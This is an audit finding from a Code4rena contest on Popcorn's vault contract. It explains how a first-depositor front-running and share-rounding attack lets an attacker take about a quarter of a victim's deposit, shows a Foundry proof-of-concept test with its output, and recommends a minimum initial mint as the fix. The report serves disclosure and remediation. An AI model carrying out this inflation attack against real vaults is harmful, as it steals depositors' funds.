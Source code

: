 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- H-10

# [First vault depositor can steal other's assets](https://github.com/code-423n4/2023-01-popcorn-findings/issues/243) 

# Lines of code

https://github.com/code-423n4/2023-01-popcorn/blob/d95fc31449c260901811196d617366d6352258cd/src/vault/Vault.sol#L294-L301


# Vulnerability details

## Impact
The first depositor can be front run by an attacker and as a result will lose a considerable part of the assets provided. 

The vault calculates the amount of shares to be minted upon deposit to every user via the `convertToShares()` function:

```solidity
function deposit(uint256 assets, address receiver)
    public
    nonReentrant
    whenNotPaused
    syncFeeCheckpoint
    returns (uint256 shares)
{
    if (receiver == address(0)) revert InvalidReceiver();

    uint256 feeShares = convertToShares(
        assets.mulDiv(uint256(fees.deposit), 1e18, Math.Rounding.Down)
    );

    shares = convertToShares(assets) - feeShares;

    if (feeShares > 0) _mint(feeRecipient, feeShares);

    _mint(receiver, shares);

    asset.safeTransferFrom(msg.sender, address(this), assets);

    adapter.deposit(assets, address(this));

    emit Deposit(msg.sender, receiver, assets, shares);
}

function convertToShares(uint256 assets) public view returns (uint256) {
    uint256 supply = totalSupply(); // Saves an extra SLOAD if totalSupply is non-zero.

    return
        supply == 0
            ? assets
            : assets.mulDiv(supply, totalAssets(), Math.Rounding.Down);
}

```

When the pool has no share supply, the amount of shares to be minted is equal to the assets provided. An attacker can abuse of this situation and profit of the rounding down operation when calculating the amount of shares if the supply is non-zero. This attack is enabled by the following components: frontrunning, rounding down the amount of shares calculated and regular ERC20 transfers.

## Proof of Concept
The Vault charges zero fees to conduct any action.

- Alice wants to deposit 2MM USDT to a vault.
- Bob frontruns Alice deposit() call with the following transactions:
  - `vault.deposit(1, bob)`: This gives Bob 1 share backed by 1 USDT.
  - `usdt.transfer(address(vault.adapter()), 1MM)`: Sends 1MM USDT to the underlying vault's adapter (from were the `totalAssets` are calculated)
  - After those two transactions, `totalAssets = 1MM + 1` and `totalSupply = 1`.
- Alice deposit transaction is mined: `deposit(2MM, alice)`, she receives only **one** share because: 
  - 2MM / (1MM + 1) * totalSupply = 2MM / (1MM + 1) * 1 = 2MM / (1MM+) ≈ 1.999998 = 1 (as Solidity floors down).
- After Alice tx, the pool now has 3MM assets and distributed 2 shares.
- Bob backruns Alice transaction and redeems his share getting 3MM * (1 Share Owned by Bob) / (2 total shares) = 1.5MM

This process gives Bob a ≈500k asset profit and Alice incurs in a ≈500k loss:

```solidity
  function test__FirstDepositorFrontRun() public {
    uint256 amount = 2_000_000 ether;

    uint256 aliceassetAmount = amount;

    asset.mint(bob, aliceassetAmount);
    asset.mint(alice, aliceassetAmount);

    vm.prank(alice);
    asset.approve(address(vault), aliceassetAmount);
    assertEq(asset.allowance(alice, address(vault)), aliceassetAmount);

    vm.prank(bob);
    asset.approve(address(vault), aliceassetAmount);
    assertEq(asset.allowance(bob, address(vault)), aliceassetAmount);

    uint256 alicePreDepositBal = asset.balanceOf(alice);

    console.log("\n=== INITIAL STATES ===");
    console.log("Bob assets: %s", asset.balanceOf(bob));
    console.log("Alice assets: %s", alicePreDepositBal);

    // Bob frontruns Alice deposit.
    vm.startPrank(bob);
    uint256 bobShareAmount = vault.deposit(1, bob);
    console.log("\n=== BOB DEPOSITS ===");
    console.log("Bob Shares Amount: %s", bobShareAmount);
    console.log("Vault Assets : %s", vault.totalAssets());

    assertTrue(bobShareAmount == 1);
    assertTrue(vault.totalAssets() == 1);
    assertEq(adapter.afterDepositHookCalledCounter(), 1);

    // Bob transfers 1MM of tokens to the adapter
    asset.transfer(address(vault.adapter()), 1_000_000 ether);
    console.log("\n=== AFTER BOB's TRANSFER ===");
    console.log("Bob Shares Amount: %s", bobShareAmount);
    console.log("Vault Assets : %s", vault.totalAssets());
    assertTrue(vault.totalAssets() == 1_000_000 ether + 1);
    vm.stopPrank();

    
    // Alice Txn is mined
    vm.prank(alice);
    uint256 aliceShareAmount = vault.deposit(aliceassetAmount, alice);
    console.log("\n=== AFTER ALICE TX ===");
    console.log("Alice Shares Amount: %s", aliceShareAmount);
    console.log("Vault Assets : %s", vault.totalAssets());
    assertTrue(aliceShareAmount == 1);

    console.log("Convertable assets that Bob receives: %s", vault.convertToAssets(vault.balanceOf(bob)));
    console.log("Convertable assets that Alice receives: %s", vault.convertToAssets(vault.balanceOf(bob)));

    // Bob backruns the call and gets a 500k profit
    vm.prank(bob);
    vault.redeem(bobShareAmount, bob, bob);
    console.log("\n=== BOB WITHDRAWS ===");

    console.log("\n=== ALICE WITHDRAWS ===");
    vm.prank(alice);
    vault.redeem(aliceShareAmount, alice, alice);

    console.log("\n=== FINAL STATES ===");
    console.log("Bob assets: %s", asset.balanceOf(bob));
    console.log("Alice assets: %s", asset.balanceOf(alice));
  }
```

Output:

```
=== INITIAL STATES ===
  Bob assets: 2000000000000000000000000
  Alice assets: 2000000000000000000000000
  
=== BOB DEPOSITS ===
  Bob Shares Amount: 1
  Vault Assets : 1

=== AFTER BOB's TRANSFER ===
  Bob Shares Amount: 1
  Vault Assets : 1000000000000000000000001
  
=== AFTER ALICE TX ===
  Alice Shares Amount: 1
  Vault Assets : 3000000000000000000000001
  Convertable assets that Bob receives: 1500000000000000000000000
  Convertable assets that Alice receives: 1500000000000000000000000
  
=== BOB WITHDRAWS ===
  
=== ALICE WITHDRAWS ===
  
=== FINAL STATES ===
  Bob assets: 2499999999999999999999999
  Alice assets: 1500000000000000000000001
```

This same issue is commonly found in vaults, [Spearbit](https://spearbit.com/) also [reported this](https://github.com/spearbit/portfolio/blob/master/pdfs/MapleV2.pdf) on their Maple V2 audit as the primary high risk issue. 

## Tools Used
Manual Review

## Recommended Mitigation Steps
- Require a minimum amount of initial shares (when its supply is zero) to be minted taking into account that:
  - The deposit mints an effective (INITIAL_MINT - INITIAL_BURN) amount of shares to the first depositor
  - Burns the INITIAL_BURN amount to a dead address.

Both initial amounts should be set carefully as they partially harm the first depositor. Those amounts should be high enough to reduce the profitability of this attack to the first depositor but not excessively high which could reduce the incentive of being the first depositor. 